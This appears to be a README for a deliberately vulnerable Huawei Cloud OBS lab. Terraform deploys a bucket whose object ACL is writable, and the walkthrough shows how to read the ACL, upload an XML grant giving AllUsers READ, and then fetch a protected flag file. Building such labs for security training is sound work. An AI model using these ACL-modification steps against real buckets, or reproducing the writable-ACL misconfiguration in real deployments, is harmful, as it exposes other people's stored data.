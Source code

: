 # Huawei Cloud OBS object ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is a vulnerability environment range for building HUAWEI CLOUD Object ACL.

After you build an environment with Terraform, users can read data that would otherwise not be read by modifying object's ACL policy.

## Deployment Environment

run in a container

```shell
cd /TerraformGoat/huaweicloud/object_storage_service/object_acl_writable/
```

Edit the `terraform.tfvars` file and fill in the file with your `huaweicloud_access_key` and `huaweicloud_secret_key`.

> The access key can be found in HUAWEI CLOUD [Console --> My Credentials]

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![image](../../../images/1650779200.png)

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Object ACL read and write permissions, and the Object Key is the flag.

## Vulnerability Utilization

Try to read the flag file and find that it prompts access denied.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

Attempt to read the ACL policy of the flag file and found that it can be read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

Try to use the PUT method to upload the Object ACL policy of the flag file, add the following policy to the original policy, and find that it can be uploaded.

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

Try to read the flag file again, you can see that the flag file was successfully read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## Destroy the environment

```shell
terraform destroy
```
